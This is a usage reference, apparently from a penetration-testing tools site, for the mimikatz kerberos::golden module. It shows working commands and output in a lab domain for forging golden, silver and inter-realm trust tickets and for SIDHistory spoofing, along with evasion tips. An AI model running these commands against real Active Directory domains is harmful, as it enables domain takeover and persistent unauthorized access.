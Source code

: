 # golden

`kerberos::golden` can be used to [forge golden and silver tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets). It can also be used for forging inter-realm trust keys. It has the following command line arguments:

* `/domain`: the active directory domain (the user's domain to impersonate)
* `/sid`: the SID of the active directory domain the user's hash is hold
* `/sids`: the extra SID of the domain to target during the SIDHistory spoofing
* `/user`: username to impersonate, keep in mind that Administrator is not the only name for this well-known account
* `/ticket`: save the ticket to a `.kirbi` file
* `/groups`: id of groups the user belongs (first is primary group, comma separator) - default is: `513,512,520,518,519` for the well-known Administrators groups
* `/id`: The user RID. The default value is 500 (local administrator)
* `/target` - the server/computer name where the service is hosted (ex: `share.server.local`, `sql.server.local:1433`)
* `/service` - The service name for the silver ticket (ex: `cifs`, `rpcss`, `http`, `mssql`)
* `/ptt`: inject the generated golden ticket into memory
* `/startoffset`: The start offset when the ticket is available. Default is 0
* `/endin`: The ticket's minutes lifetime. The default value is 10 years. The default active directory kerberos policy is 10 hours
* `/renewmax`: The maximum ticket's minutes lifetime renewal. The default value is 10 years. The default active directory kerberos policy is 7 days
* `/krbtgt`: specify the krbtgt RC4 key
* `/des`: the DES key to be used
* `/rc4`: the RC4 key to be used
* `/aes128`: The AES128 key to be used. More opsec safe
* `/aes256`: the AES256 key to be used. More opsec safe
* `/claims`: [add additional values to a user’s kerberos ticket and then make access decisions based on those values at the client level](https://syfuhs.net/2017/07/29/active-directory-claims-and-kerberos-net/)
* `/rodc`: for generating a golden ticket with the krbtgt hash of a Read Only Domain Controller

### Golden Ticket

The following are the requirements for generating a [golden ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#golden-ticket).

* A KRBTGT key. It can be of type RC4 (i.e. NT hash), DES or AES (depending on what etypes the domain supports and what level of stealth the attacker wants).
* Domain name
* Domain SID
* The username to impersonate
* The RID of the user account to impersonate. The RID is the rightmost number in a full SID (e.g. 500 for the built-in administrator account)
* The group RIDs the account should be a member of. The RID is the rightmost number in a full SID (e.g. 512 for "Domain Admins", 519 for "Entreprise Admins").

```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:b5348d0a20a24a67ff544146a09cd292 /user:krbtgt /ticket:ticket.kirbi /groups:500,501,513,512,520,518,519
User      : krbtgt
Domain    : hacklab.local (HACKLAB)
SID       : S-1-5-21-2725560159-1428537199-2260736313
User Id   : 500
Groups Id : *500 501 513 512 520 518 519
ServiceKey: b5348d0a20a24a67ff544146a09cd292 - rc4_hmac_nt
Lifetime  : 19/11/2021 02:55:47 ; 17/11/2031 02:55:47 ; 17/11/2031 02:55:47
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

### Sliver Ticket

The following are the requirements for generating a [silver ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#silver-ticket).

```
mimikatz # kerberos::golden /domain:hacklab.local /sid:S-1-5-21-2725560159-1428537199-2260736313 /rc4:647dac3559c899c5fe4dad7723feb8c5 /user:m3g9tr0n /service:CIFS/dc.hacklab.local /target:dc.hacklab.local
User      : m3g9tr0n
Domain    : hacklab.local (HACKLAB)
SID       : S-1-5-21-2725560159-1428537199-2260736313
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 647dac3559c899c5fe4dad7723feb8c5 - rc4_hmac_nt
Service   : CIFS/dc.hacklab.local
Target    : dc.hacklab.local
Lifetime  : 19/11/2021 02:59:22 ; 17/11/2031 02:59:22 ; 17/11/2031 02:59:22
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

### Golden ticket & SIDHistory spoofing

When Forest Trust Relationship is bi-directional, it is possible to escalate from a child domain to a parent root domain by doing SIDHistory spoofing.

```
mimikatz #kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name> /ticket:ticket.kirbi /sids:<sid_of_parent_domain>

kerberos::golden /user:Administrator /domain:child.hacklab.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:krbtgt_tkt.kirbi
User      : Administrator
Domain    : child.hacklab.local (CHILD)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-280534878-1496970234-700767426-519 ;
ServiceKey: ff46a9d8bd66c6efd77603da26796f35 - rc4_hmac_nt
Lifetime  : 19/11/2021 1:02:13 AM ; 5/6/2030 1:02:13 AM ; 5/6/2030 1:02:13 AM
-> Ticket : C:\krbtgt_tkt.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

### Inter-Realm Trust Tickets

To acquire the forest trust keys the command [`lsadump::trust /patch`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/trust) has to be used. Depending on the forest trust relationship, using the trust key instead of the krbtgt account can be stealthier since most defense mechanisms are monitoring the krbtgt account.

```
mimikatz # kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain> /ticket:<file_to_save>

kerberos::golden /user:Administrator /domain:hacklab.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-3146393536-1393405867-2905981701-519 /rc4:172ad9986a524aadaf4d01c1ce7f240f /service:krbtgt /target:bank.local /ticket:trust_tkt.kirbi

User      : Administrator
Domain    : hacklab.local (HACKLAB)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3146393536-1393405867-2905981701-519 ;
ServiceKey: 172ad9986a524aadaf4d01c1ce7f240f - rc4_hmac_nt
Service   : krbtgt
Target    : bank.local
Lifetime  : 19/11/2021 3:01:44 AM ; 5/6/2030 3:01:44 AM ; 5/6/2030 3:01:44 AM
-> Ticket : C:\trust_tkt-us.kirbi
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
Final Ticket Saved to file !
```
